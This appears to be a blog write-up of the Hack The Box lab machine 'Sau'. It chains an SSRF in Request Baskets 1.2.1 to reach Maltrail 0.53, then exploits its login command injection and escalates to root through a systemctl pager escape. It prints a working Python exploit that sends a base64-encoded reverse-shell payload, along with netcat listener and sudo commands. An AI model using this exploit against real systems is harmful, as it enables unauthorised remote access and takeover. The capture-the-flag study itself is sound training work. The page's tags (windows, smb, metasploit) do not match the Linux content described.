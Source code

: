```yaml
---
title: "Hack The Box: Sau Write-Up"
date: 2024-01-21 14:00
categories: [Write-ups]
tags: [htb, lab, windows, smb, metasploit, nmap]
img_path: /htb/machines/sau/
---
```


Sau was my first active easy-rated machine that I was able to pwn on HackTheBox. It was quite challenging because it combined several vulnerabilities that need to be exploited to get the flags. For one of those vulnerabilities, I also had to stop for a while in order to get more familiar with it before I could properly exploit it. But on the other hand, it was very rewarding when I finally got the root flag. So let's go through the whole process together.

## Enumeration

Let's start with an nmap scan as always.

```console
$ nmap -sV -sC -Pn 10.10.11.224
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

We can see that nmap could find the ports 22, 80, 55555 with the services ssh, http, and unknown, respectively. However, the messages to port 80 seem to have been filtered by a firewall. So maybe this is a web server listening on localhost only? Let's remember that for later.

To get more information about the other ports, let's do a more in-depth scan for those.

```console
nmap -sV -sC -p 22,55555 10.10.11.224
```

![Nmap Scan](nmap-scan.png)

In the output, you will also see the fingerprint of the service running on port 55555 because this service is unknown to nmap. However, as it seems to respond to HTTP requests, we can assume that it is some kind of web service. Let's take a look at it in the browser.

![Request Baskets](request-baskets.png)

It is a service called [Request Baskets](https://github.com/darklynx/request-baskets). After some quick research, it is a service that collects HTTP requests that go through so-called baskets for later inspection via an API or the UI. 

In the footer of the homepage, you can also see that version 1.2.1 is in use. Let's search on the Internet if there are some known vulnerabilities for this version. Indeed, we quickly find [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) mentioned which explains that the API endpoint /api/baskets/{name} is vulnerable to a Server-Side Request Forgery (SSRF) attack.

There is also an [example exploit](https://packetstormsecurity.com/files/174128/Request-Baskets-1.2.1-Server-Side-Request-Forgery.html) available. We can take a look at it to get a better understanding of how the exploit works. It makes a POST request to the endpoint /api/baskets/{name}. In the payload, the "forward_url" attribute is set to an attacker server. This server can either be a server controlled by us or an internal server of the target network that we cannot access from outside.

Remember our assumption that an internal web server may be running on port 80 that only listens on localhost? Taking that into account, the latter option seems promising to get access to that web server.

## SSRF Exploitation in Request Baskets

There are mainly two ways how we can exploit the SSRF vulnerability. We can either use the API directly like in the example exploit or configure a basket via the UI. We'll take the UI route because I personally think it's a bit easier. 

First, we create a basket with an arbitrary name and open it.

![Empty Basket](empty-basket.png)

Afterwards, we can configure the basket settings by clicking on the cogwheel on the top right.

Let's set the Forward URL field to *http://localhost:80* and check all the checkboxes. We can keep the default value for Basket Capacity.

![Basket Settings](basket-settings-1.png)

Once that's done, we can make a curl request to the basket. It should now forward the request to the internal web server on port 80 and return the HTML code for its homepage.

```console
curl http://10.10.11.224:55555/{bucket_name} > request_hidden_page.html
```

When we inspect the HTML code's title tag, we can see that the internal web server runs a service called Maltrail. At the bottom, we can also find the version in use: 0.53.

> You can also find a small Easter Egg in the HTML code. Hint: collaboration.
{: .prompt-info}

## Mailtrail

We can now repeat the process from before and search for known vulnerabilities for this service's version. Luckily, we can find an [Unauthenticated OS Command Injection](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/). It seems that the login page allows OS command injection in the username parameter. This looks like a vulnerability we can use to get a reverse shell.

In order to do that, we first need to change the Forward URL setting of our basket to *http://localhost:80/login*. 

![Basket Settings](basket-settings-2.png)

After that, we can use an already existing exploit written in Python, adjusting it slightly. The source code can be found [here](https://github.com/spookier/Maltrail-v0.53-Exploit/blob/main/exploit.py). For our purposes, we will only remove the concatenation of the "/login" string in line 28. The result looks like this:

```python
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3]
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```

Before we start this script, however, we will need to start a netcat listener in a different terminal window.

```console
nc -lnvp 4444
```

Now we are ready to execute the exploitation script.

```console
python3 exploit.py {your_tun0_ip} 4444 http://10.10.11.224:55555/{basket_name}
```

On our netcat listener, we should get a reverse shell back as the user puma.

![Reverse Shell](reverse-shell.png)

The user flag can be found under /home/puma/user.txt.

## Privilege Escalation

In order to get the root flag, we need to find a way to escalate our privileges. First, let's see what privileges our current user has.

```console
sudo -l
```

![Sudo Privileges](sudo-privileges.png)

Apparently, we can execute the systemctl status subprogram for the trail service. Let's look on the Internet if we can exploit this somehow. After a bit of searching, we can find [CVE-2023-26604](https://nvd.nist.gov/vuln/detail/CVE-2023-26604). This CVE explains that versions of systemd before 247 are vulnerable to local privilege escalation. Let's see if this applies to our current situation.

```console
systemctl --version
```

The systemd version of our target host seems to be 245. So it should be vulnerable. Let's try it.

```console
sudo /usr/bin/systemctl status trail.service
```

After it has opened, type "!/bin/sh" to get a root shell.

The system flag can be found under /root/root.txt.